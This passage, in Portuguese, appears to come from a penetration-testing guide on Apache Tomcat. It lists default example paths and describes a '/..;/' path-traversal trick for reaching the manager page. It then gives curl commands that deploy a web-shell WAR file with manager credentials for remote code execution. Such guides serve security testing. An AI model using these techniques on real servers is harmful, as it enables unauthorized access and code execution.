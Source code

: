 * /examples/jsp/num/numguess.jsp
* /examples/jsp/dates/date.jsp
* /examples/jsp/snp/snoop.jsp
* /examples/jsp/error/error.html
* /examples/jsp/sessions/carts.html
* /examples/jsp/checkbox/check.html
* /examples/jsp/colors/colors.html
* /examples/jsp/cal/login.html
* /examples/jsp/include/include.jsp
* /examples/jsp/forward/forward.jsp
* /examples/jsp/plugin/plugin.jsp
* /examples/jsp/jsptoserv/jsptoservlet.jsp
* /examples/jsp/simpletag/foo.jsp
* /examples/jsp/mail/sendmail.jsp
* /examples/servlet/HelloWorldExample
* /examples/servlet/RequestInfoExample
* /examples/servlet/RequestHeaderExample
* /examples/servlet/RequestParamExample
* /examples/servlet/CookieExample
* /examples/servlet/JndiServlet
* /examples/servlet/SessionExample
* /tomcat-docs/appdev/sample/web/hello.jsp

### **Exploração de Traversão de Caminho**

Em algumas [**configurações vulneráveis do Tomcat**](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/), você pode obter acesso a diretórios protegidos no Tomcat usando o caminho: `/..;/`

Portanto, por exemplo, você pode ser capaz de **acessar a página do gerenciador do Tomcat** acessando: `www.vulnerable.com/lalala/..;/manager/html`

**Outra maneira** de contornar caminhos protegidos usando esse truque é acessar `http://www.vulnerable.com/;param=value/manager/html`

## RCE

Por fim, se você tiver acesso ao Gerenciador de Aplicativos da Web do Tomcat, você pode **fazer upload e implantar um arquivo .war (executar código)**.

### Limitações

Você só poderá implantar um WAR se tiver **privilégios suficientes** (funções: **admin**, **manager** e **manager-script**). Esses detalhes podem ser encontrados em _tomcat-users.xml_, geralmente definidos em `/usr/share/tomcat9/etc/tomcat-users.xml` (varia entre as versões) (consulte a seção [POST](./#post)).

```bash
# tomcat6-admin (debian) or tomcat6-admin-webapps (rhel) has to be installed

# deploy under "path" context path
curl --upload-file monshell.war -u 'tomcat:password' "http://localhost:8080/manager/text/deploy?path=/monshell"

# undeploy
curl "http://tomcat:Password@localhost:8080/manager/text/undeploy?path=/monshell"
```
